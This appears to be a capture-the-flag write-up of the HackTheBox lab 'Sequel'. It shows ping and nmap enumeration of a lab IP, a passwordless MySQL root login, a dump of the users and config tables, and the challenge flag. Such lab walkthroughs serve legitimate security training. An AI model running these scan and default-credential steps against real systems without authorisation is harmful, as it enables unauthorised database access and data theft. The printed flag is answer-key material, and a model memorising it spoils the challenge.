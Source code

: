 ```yaml
---
title: "HackTheBox - Sequel"
date: 2023-12-27 08:30:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, web, databases, injection, sql, sql injection]
image:
    path: /assets/img/htb/Sequel.png
    alt: Sequel - HackTheBox
---
```


[**Sequel**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Fawn we will learn about **SQL (Sctuctured Query Language), SQL Injection**.

## Introduction

- Connect **Sequel** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.95.232

PING 10.129.95.232 (10.129.95.232) 56(84) bytes of data.
64 bytes from 10.129.95.232: icmp_seq=1 ttl=63 time=425 ms
64 bytes from 10.129.95.232: icmp_seq=2 ttl=63 time=257 ms
64 bytes from 10.129.95.232: icmp_seq=3 ttl=63 time=266 ms
64 bytes from 10.129.95.232: icmp_seq=4 ttl=63 time=504 ms

--- 10.129.95.232 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 256.704/362.845/503.874/105.416 ms
```

### Nmap

Scan ports using nmap, -sV to display port version info, -T4 to speed up scanning (the higher the faster [0-5]).

```bash
❯ nmap 10.129.95.232 -sCV -T4

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-27 08:31 WIB
Nmap scan report for JSN.JaringanKU (10.129.95.232)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
1862/tcp filtered mysql-cm-agent
3306/tcp open     mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsCompression, FoundRows, ConnectWithDatabase, LongColumnFlag, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolOld, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: '\c[~+VOh@Cq1=~'D]*X\'
|_  Auth Plugin Name: mysql_native_password
3371/tcp filtered satvid-datalnk

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 239.68 seconds
```

You can see, there are 3 results but the only one that opens is 3306/tcp which is the mysql service.

## Foothold

To run `mysql`, make sure you have the service, if you don't have it, download it. To ask for help use `--help`.

### Mysql

Use `-h` to connect to the host, and `-u` to log in using the username. Here we use the default user, namely `root` and we do not need to enter a password.

```
show databases; -> to display all databases.
use database; -> to use a database.
show tables; -> to display tables in the database.
select * from table; -> to display all the contents of the table.
```

```bash
mysql -h 10.129.95.232 -u root

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 74
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,244 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,233 sec)

MariaDB [htb]> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0,232 sec)

MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,589 sec)
```
